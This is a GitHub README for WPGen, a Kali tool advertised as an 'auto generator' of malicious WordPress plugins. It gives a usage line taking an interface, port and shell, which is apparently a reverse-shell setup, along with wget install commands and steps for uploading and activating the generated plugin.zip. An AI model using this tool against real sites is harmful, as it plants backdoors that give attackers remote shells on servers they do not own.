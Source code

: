 # WPGen

**Auto Generator Malicious Plugins WordPress**

![](/1.png)

Tested Interfaces: <kbd>eth0</kbd> - <kbd>tun0</kbd> - <kbd>enp0s3</kbd>

- <kbd>Use</kbd>

```cmd
root@kali:~# WPGen eth0 443 bash
```

![](/2.png)

- <kbd>Download / Install</kbd>

```cmd
root@kali:~# wget -q "https://raw.githubusercontent.com/d4t4s3c/WPGen/main/WPGen.sh" -O /usr/bin/WPGen
root@kali:~# chmod +x /usr/bin/WPGen
```

- <kbd>Cheat Sheet</kbd>

  * Plugins
    * Add New
    * Upload Plugin
    * Examine
    * Select `plugin.zip`
    * Install New
    * Activate Plugin

---
